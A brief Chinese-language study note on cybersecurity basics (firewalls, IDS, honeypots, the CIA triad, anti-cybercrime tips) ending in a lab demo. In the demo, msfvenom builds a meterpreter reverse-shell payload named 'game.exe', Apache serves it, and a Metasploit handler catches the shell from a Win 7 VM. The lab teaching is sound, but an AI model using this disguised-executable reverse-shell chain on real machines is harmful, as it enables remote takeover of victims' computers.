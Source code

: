 ## What is Cyber Security? 

对网络、程序、操作系统和其他来自未授权的数字访问和攻击的保护。

### 网络安全与信息安全：

网络安全和信息安全是不同的：★

信息安全：部署程序和工具来保护敏感信息；

网络安全：用来保护网络的完整性的一系列技术。

## Network Security Control

### Firewall：

限制网络数据进出你的电脑，可以自己配置，定义一些规则，如：开一些 IP 和 端口。

### IDS (Intrusion Detection System) ：

侦测黑客的攻击等一些异常行为，与路由器和防火墙一起工作。

### Honeypots (蜜罐)：

用来引诱黑客去攻击一个网络，然而自己在其他的安全的网络。

## Why Cyber Security?

CIA: 

Confidentiality (机密性) ：非授权者不可使用。如：军事机密。

Integrity (完整性) ：非授权者不能增删改查该网络的数据。

Availability (可用性) ：授权者可以使用该网站。如：你使用你的 Google 帐号登录 GMail ，它是可用的。

## Tackling Cybercrime

1. Use unique and strong passwords
2. Avoid public Wi-Fi
3. Ignore and delete mails from unknown senders （不要下载破解软件，世界上没有免费的午餐）
4. Make use of antivirus software （高级功能都是要钱的，不同的系统上不同的杀软性能表现不太一样，有些在 Win 7 上强，而另一些则在 Win 10 上强）。一个网址：virustotal.com （分析可疑文件及链接是否是病毒。）
5. Use two step verification process
6. Be careful while downloading apps （在手机上还可能有一些限制，但是在 Windows 上，你下载软件的地方是在开放的网络上，很有可能是 恶意软件。可以使用上述病毒扫描网站去扫描它们。）

## Demo - Metasploit Attack

需要 一台 Kali Linux 虚拟机，和一台 Win 7 虚拟机。

1. 打开 Kali Terminal ，输入命令：`msfvenom -p windows/meterpreter/reverse_tcp lhoset=192.168.71.133（此 Kali 的 IP 地址） lport=4444 -f exe -a x86 > /root/Desktop/game.exe`。该命令会在 Kali 桌面生成一个 game.exe 文件。
2. 在有 apache service 的目录下，将该 文件 拷入其中：`cd /var/www/html`, `mkdir shared`, `chmod -R 755 shared`, `chown -R www-data:www-data shared`, `cp /root/Desktop/game.exe var/www/html/shared`, `cd shared`, `service apache2 start`。然后在 Win7 中浏览器地址栏输入：`192.168.71.133 (Kali 的 IP) /shared`，然后下载 game.exe 文件。
3. Start the listener：在 Kali 终端继续输入命令：`msfconsole`,`use exploit/multi/handler`,`set payload windows/meterpreter/reverse_tcp`, `show options`, `set lhost 192.168.71.133 (Kali IP) `, `set lport 4444`, `show options`, `exploit`, 返回 Win 7 ，运行 game.exe ，就能看到 对方的 IP 以及何时与我们的 Kali 连接的。
